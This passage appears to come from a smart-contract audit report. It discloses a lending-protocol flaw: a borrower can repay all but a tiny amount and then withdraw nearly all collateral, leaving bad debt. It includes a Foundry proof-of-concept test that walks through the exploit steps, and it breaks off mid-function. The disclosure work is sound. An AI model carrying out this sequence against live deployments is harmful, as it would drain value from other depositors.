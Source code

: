 This `1` continues to remain in the pool, diluting the value of other users' shares. The following PoC shows the aforementioned behaviour. This action can be repeated by multiple wallets to flood the protocol with bad debt.

## Proof of Concept
Add the following test inside `src/stable/tests/CollateralAndLiquidity.t.sol` and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_createSmallPosition`:<br>
```js
	function test_createSmallPosition() public {
        // No loans taken by Alice & Bob initially
        assertEq( collateralAndLiquidity.userShareForPool( alice, collateralPoolID ), 0);
        assertEq( collateralAndLiquidity.userShareForPool( bob, collateralPoolID ), 0);
        assertEq( usds.balanceOf(alice), 0);
        assertEq( usds.balanceOf(bob), 0);

        uint256 collateral = 5000 ether;
        deal(address(wbtc), address(alice), collateral);
        deal(address(weth), address(alice), collateral);
        deal(address(wbtc), address(bob), collateral);
        deal(address(weth), address(bob), collateral);

        // Alice and Bob each deposit and borrow
        vm.startPrank( alice );
		collateralAndLiquidity.depositCollateralAndIncreaseShare(collateral, collateral, 0, block.timestamp, false );
		uint256 maxUSDSAlice = collateralAndLiquidity.maxBorrowableUSDS(alice);
		collateralAndLiquidity.borrowUSDS( maxUSDSAlice );
		vm.stopPrank();

        vm.startPrank( bob );
		collateralAndLiquidity.depositCollateralAndIncreaseShare(collateral, collateral, 0, block.timestamp, false );
		uint256 maxUSDSBob = collateralAndLiquidity.maxBorrowableUSDS(bob);
		collateralAndLiquidity.borrowUSDS( maxUSDSBob );
		vm.stopPrank();

    	skip(1 days );
        assertEq( collateralAndLiquidity.userShareForPool( alice, collateralPoolID ), 2*collateral);
        assertEq( collateralAndLiquidity.userShareForPool( bob, collateralPoolID ), 2*collateral);
        uint256 aliceBorrowedAmount = usds.balanceOf(alice);
        uint256 bobBorrowedAmount = usds.balanceOf(bob);
        assertEq(aliceBorrowedAmount, maxUSDSAlice);
        assertEq(bobBorrowedAmount, maxUSDSBob);

        // Check that Alice can not be liquidated
        assertFalse(collateralAndLiquidity.canUserBeLiquidated(alice)); 
        // Alice repays all her debt except a small amount of 939; and then removes as much collateral as possible
        vm.startPrank(alice);
        collateralAndLiquidity.repayUSDS(aliceBorrowedAmount - 939);
        assertEq(usds.balanceOf(alice), 939);
        collateralAndLiquidity.withdrawCollateralAndClaim(2*collateral - 1, 0, 0, block.timestamp);
        vm.stopPrank();

        // Check collateral.numberOfUsersWithBorrowedUSDS returns correct number of open positions
        assertEq(collateralAndLiquidity.numberOfUsersWithBorrowedUSDS(), 2);

        // Check if Alice can be liquidated
        assertTrue(collateralAndLiquidity.canUserBeLiquidated(alice)); // @audit : Alice was allowed to withdraw collateral even when it resulted in loan becoming undercollateralized

```